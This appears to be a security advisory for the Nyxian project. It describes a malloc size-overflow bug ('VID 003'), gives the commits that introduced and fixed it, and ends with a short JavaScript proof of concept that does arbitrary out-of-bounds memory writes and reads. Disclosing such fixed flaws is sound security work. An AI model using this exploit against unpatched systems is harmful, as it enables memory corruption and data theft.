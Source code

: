 # VID 003: Malloc Null

### Description

A attacker might be able to pass a arbitary size value to `memory.malloc` which causes allocation failure such as passing `0xFFFFFFFFFFFFFFFF` which is UINT64_MAX to the safety array and then use other methodes such as `memory.mwrite_buf_str` and `mread_buf_str` to read and write to and from arbitary memory addresses.

The vulnerability was addressed with improved checks and improved memory handling.

Introduced in: [`fee2b87`](https://github.com/ProjectNyxian/Nyxian/commit/fee2b8778ccfe6babdff4540e8e4fc56d8b68d1b)

fixed in: [`078d86a`](https://github.com/ProjectNyxian/Nyxian/commit/078d86a1b08f5e2f052e09d1d8d8cd7d507694b0)

Credit: [@seanistethered](https://github.com/seanistethered)

---

### Exploitation

```js
// initial vulnerability
// "allocating" a memory block with the size of UINT64_MAX
const ptr = memory.malloc(0xFFFFFFFFFFFFFFFF);

// allocating real memory block
const real_ptr = memory.malloc(0x01);

// writing a string to illegal memory bounds
memory.mwrite_buf_str(ptr, real_ptr - 10, real_ptr - 9, "\0");

// reading the string from illegal memory bounds
const buf = memory.mread_buf_str(ptr, real_ptr - 10, real_ptr -9);

// free the real memory block
memory.free(real_ptr);
```

